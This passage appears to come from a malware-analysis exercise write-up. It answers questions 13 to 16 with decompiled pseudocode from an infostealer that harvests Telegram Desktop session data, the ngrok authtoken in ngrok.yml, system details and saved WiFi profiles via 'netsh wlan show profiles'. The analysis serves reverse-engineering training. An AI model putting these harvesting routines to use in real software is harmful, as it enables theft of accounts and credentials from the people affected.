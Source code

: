 **12**

## 13. What is the address of the function that used to search about the telegram data?
```bash
 if ( SHGetFolderPathA(0i64, 26, 0i64, 0, (LPSTR)&v239) >= 0 )
    sub_14000FB40(v227, 0x104ui64, "%s\\Telegram Desktop\\tdata");
  v69 = v228;
  ((void (__fastcall *)(SOCKET, char *, const char *))sub_140001AB2)(v199, v227, "Telegram-tdata");
```

**0x140001AB2**

## 14. When the malware writes the CPU core count to the file, which function does it call immediately before writing?
```bash
fputs("===== System Information =====\n\n", v84);
    GetSystemInfo(v230);
    sub_14000F720(v85, "CPU Core Count: %u\n");
```

**GetSystemInfo**

## 15. Which configuration filename does the malware specifically look for to extract the ngrok authtoken?
```bash
if ( getenv("USERNAME")
      && (v105 = 0,
          sub_14000FB40((char *)&v238, 0x104ui64, "C:\\Users\\%s\\AppData\\Local\\ngrok\\ngrok.yml"),
          (v106 = fopen((const char *)&v238, "r")) != 0i64) )
    {
      while ( fgets((char *)&v239, 1024, v106) )
      {
        if ( strstr((const char *)&v239, "authtoken:") )
        {
          v105 = 1;
          fputs((const char *)&v239, v104);
        }
      }
```

**ngrok.yml**

## 16. What command does the malware run to list all saved WiFi profiles on the system?
```bash
    if ( (unsigned int)((__int64 (__fastcall *)(const char *, char *))sub_140005263)("netsh wlan show profiles", v26) )
    {
      v4 = 0;
      for ( j = strtok(v26, "\n"); j; j = strtok(0i64, "\n") )
      {
        if ( strstr(j, "All User Profile") )
```
